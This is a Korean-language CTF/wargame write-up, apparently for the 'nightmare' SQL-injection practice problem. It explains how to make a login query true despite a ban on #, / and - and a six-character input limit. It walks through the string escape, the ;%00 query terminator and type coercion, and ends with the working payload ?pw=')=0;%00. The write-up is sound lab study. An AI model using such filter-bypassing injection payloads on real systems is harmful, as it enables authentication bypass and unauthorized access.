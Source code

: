 ## Q18. nightmare _ 자동형변환
<img src="/photo/prob_18.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: # / - <br> 문제 사항: 쿼리문 참으로 만들기
### 해결책

```
제한된 문자 X
but. strlen() 함수가 사용됨
=> GET값 길이 6으로 제한됨
먼저 문자열에서 탈출해야 된다고 생각함
=> ')를 붙여줌
```
```diff
# 현재 쿼리문: where pw=('')') and id!='admin'
```
```
뒤의 ')가 문법을 어긋나게함
=> 주석처리가 필요함
but. # / - 제한됨
=> ;%00 사용
```
```diff
# where pw=('');') and id!='admin'
```
```
GET값으로 4글자를 넣어서 앞으로 2글자만 추가로 넣을 수 있음
=> 함수 사용 X
=> 논리를 이용
=> 자동형변환에 의해 ('')는 0
=> 0=0은 참
=> 쿼리를 참으로 만들 수 있음
```
```
해결 쿼리문: where pw=('')=0;') and id!='admin'
```
### CERT <br> ?pw=')=0;%00
